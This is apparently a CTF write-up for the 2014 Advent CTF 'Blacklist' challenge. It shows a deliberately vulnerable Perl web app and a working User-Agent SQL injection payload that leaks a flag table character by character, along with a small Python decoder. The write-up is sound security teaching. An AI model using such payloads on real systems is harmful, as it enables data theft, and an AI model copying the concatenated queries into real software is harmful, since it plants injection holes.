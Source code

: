 ```yaml
---
layout: post
title: "Advent CTF 2014 Blacklist"
date: 2014-12-24 14:19:04 -0500
author: [historypeats]
comments: true
categories: [advent]
---
```


### Solved by historypeats

> We have stupid blacklist. The flag is in flag table.
> http://blacklist.adctf2014.katsudon.org/

Provided Source Code:
```perl
use Mojolicious::Lite;
use DBI;

# enjoy~
my $BLACKLIST_CHAR = qr/['*=]/;
my $BLACKLIST_WORD = qr/select|insert|update|from|where|order|union|information_schema/;

my $dbh = DBI->connect('dbi:mysql:blacklist', 'blacklist', $ENV{BLACKLIST_PASSWORD});
helper dbh => sub { $dbh };

get '/' => sub {
    my $self = shift;
    my $ip = $self->tx->remote_address;
    my $agent = $self->req->headers->user_agent;
    # remove evil comments
    $agent =~ s!/\*.*\*/!!g;
    # disallow this one
    die 'no hack' if $agent =~ /\)\s*,\s*\(/;
    $self->dbh->do(
        "INSERT INTO access_log (accessed_at, agent, ip) VALUES (NOW(), '$agent', '$ip')"
    );
    my $access = $self->dbh->selectall_arrayref(
        "SELECT * FROM access_log WHERE ip = '$ip' ORDER BY accessed_at DESC LIMIT 10",
        {Slice => {}}
    );
    return $self->render('index', ip => $ip, access => $access);
};

get '/search' => sub {
    my $self = shift;
    my $ip = $self->param('ip');
    $ip =~ s/$BLACKLIST_CHAR//g;
    $ip =~ s/$BLACKLIST_WORD//g;
    my $id = $self->param('id');
    $id =~ s/$BLACKLIST_CHAR//g;
    $id =~ s/$BLACKLIST_WORD//g;
    my ($agent) = $self->dbh->selectrow_array(
        "SELECT agent FROM access_log WHERE ip = '$ip' AND id = '$id'",
        {Slice => {}}
    );
    if ($agent) {
        $agent =~ s/$BLACKLIST_CHAR//g;
        $agent =~ s/$BLACKLIST_WORD//g;
        my $access = $self->dbh->selectall_arrayref(
            "SELECT * FROM access_log WHERE ip = '$ip' AND agent LIKE '$agent' ORDER BY accessed_at DESC LIMIT 10",
            {Slice => {}}
        );
        return $self->render('search', agent => $agent, access => $access);
    } else {
        return $self->render_not_found;
    }
};

get '/source' => sub {
    my $self = shift;
    my $src = do {
        open my $fh, '<', __FILE__ or die $!;
        local $/; <$fh>;
    };
    return $self->render(text => $src, format => 'txt');
};

app->start;

__DATA__
@@ index.html.ep
<!DOCTYPE html>
<html>
<head>
    <meta charset="utf-8" />
    <title>blacklist</title>
</head>
<body>
    <p>sqli, sqli, sqli~~~ we have blacklist. see <a href="/source">source</a>.</p>
    <h2><%= stash 'ip' %>:</h3>
    <ul>
    % my $access = stash 'access';
    % for (@$access) {
        <li>[<%= $_->{accessed_at} %>] "<%= $_->{agent} %>" <a href="<%== url_for('/search')->query(ip => $_->{ip}, id => $_->{id}) %>">search</a></li>
    % }
    </ul>
</body>
</html>

@@ search.html.ep
<!DOCTYPE html>
<html>
<head>
    <meta charset="utf-8" />
    <title>blacklist</title>
</head>
<body>
    <h2>search with "<%= stash 'agent' %>"</h3>
    <ul>
    % for (@$access) {
        <li>[<%= $_->{accessed_at} %>] "<%= $_->{agent} %>"</li>
    % }
    </ul>
</body>
</html>

@@ not_found.html.ep
<!DOCTYPE html>
<html>
<head>
    <meta charset="utf-8" />
    <title>not found</title>
    <style>body{font-size:64px;}</style>
</head>
<body>
    <pre>             _      __                       _
 _ __   ___ | |_   / _| ___  _   _ _ __   __| |
| '_ \ / _ \| __| | |_ / _ \| | | | '_ \ / _` |
| | | | (_) | |_  |  _| (_) | |_| | | | | (_| |_ _ _
|_| |_|\___/ \__| |_|  \___/ \__,_|_| |_|\__,_(_|_|_)</pre>
</body>
</html>

```

Here we have a SQL injection challenge that relies on a blacklist filter to prevent attackers. As we all know, blacklist filters are terrible when it comes to protecting SQL queries and the proper method would be to use parameterized queries.

Looking at the code, we are able to inject arbitrary SQL into the "INSERT INTO" query via the User-Agent of the request and have the data returned to us in the subsequent "SELECT" query. The "INSERT INTO" query is performed whenever a new request to the index of the page (http://blacklist.adctf2014.katsudon.org/) is made, taking the User-Agent and IP address of the request and inserting it into the database. Additionally, we are allowed to use single-quotes in our injection, which allows us to break out of the query and perform our own SQL statements.

In order to exploit this SQL injection, I used the following base injection in the User-Agent of the request: 

```
hai2' + (ord(substring((select * from flag limit 1),1,1))),'38.86.162.36');#
```

Now to explain what this does, it basically reads the first character of the flag and converts it to it's ASCII decimal equivalent. Then it performs an addition operation with the string 'hai2'. Performing an addition operation between a string and number will return the number. Therefore, the "INSERT INTO" query will be writing the ASCII decimal value of the first letter of the flag.

The response to this request returns the following snippet:
```html
<!DOCTYPE html>
<html>
<head>
    <meta charset="utf-8" />
    <title>blacklist</title>
</head>
<body>
    <p>sqli, sqli, sqli~~~ we have blacklist. see <a href="/source">source</a>.</p>
    <h2>38.86.162.36:</h3>
    <ul>
        <li>[2014-12-17 06:34:42] "65" <a href="/search?ip=38.86.162.36&id=42980">search</a></li>

```

We can see that "65" is returned. "65" is the decimal equivalent of the letter "A". Now all we need to do is increment substring number until we succesfully enumerate the entire flag.

After a quick script, the following python script is used to convert the decimal values returned:
```python

x = [65, 68, 67, 84, 70, 95, 100, 48, 95, 78, 111, 84, 95, 85, 115, 51, 95, 70, 85, 99, 75, 49, 78, 95, 56, 108, 52, 99, 107, 76, 49, 115, 84]
word = ''

for i in x:
    word += chr(i)

print word
```

Flag: ADCTF_d0_NoT_Us3_FUcK1N_8l4ckL1sT
